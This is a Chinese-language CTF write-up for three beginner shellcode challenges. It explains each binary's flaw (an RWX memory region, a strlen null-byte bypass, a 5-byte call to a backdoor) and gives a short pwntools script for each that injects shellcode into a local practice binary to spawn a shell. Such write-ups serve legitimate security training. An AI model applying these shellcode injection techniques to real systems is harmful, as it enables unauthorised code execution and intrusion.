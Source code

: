 ## shellcode_level1

审计一下反汇编的代码，主程序的逻辑是，创建了五张paper，它们处于内存的不同位置，并且还有

mmap和mprotect函数来控制这些内存段的读、写、执行权限。

只有paper4在被执行前获得了读写执行权限，因此可以传入shellcode到paper4上并执行

```python
from pwn import *

context(os="linux",arch="amd64")

io = process("./shellcode_level1")

io.sendline(str(4))
payload = asm(shellcraft.sh())
io.sendline(payload)
io.interactive()
```

## shellcode_level2

一道非常粗糙的0截断题。

使用strlen判断是否输入了内容，如果有就清空缓冲区。

但是如果内容的第一个位置为0x00，那么strlen就返回0，由此可以写入shellcode

```python
from pwn import *

context(os="linux",arch="amd64")

io = process("./shellcode_level2")

payload = b'\x00'+ asm(shellcraft.sh())
io.sendline(payload)
io.interactive()
```



## shellcode_level3

只能输入5字节的shellcode。

函数框里发现了现成的后门函数能直接拿下shell。

熟悉汇编就可以知道，jmp以及call指令做短跳转，其后面的四个字节为跳转的偏移量。

于是计算shellcode位置后面那一条指令到程序段里后门函数的偏移，使用负数表示。

本exp使用call，其二进制为E8，而偏移为0xFFFFD14D，写成小端序，直接手搓机器码。

```python
from pwn import *

io = process("./shellcode_level3")

payload = b"\xE8\x4D\xD1\xFF\xFF"

io.sendline(payload)
io.interactive()

```
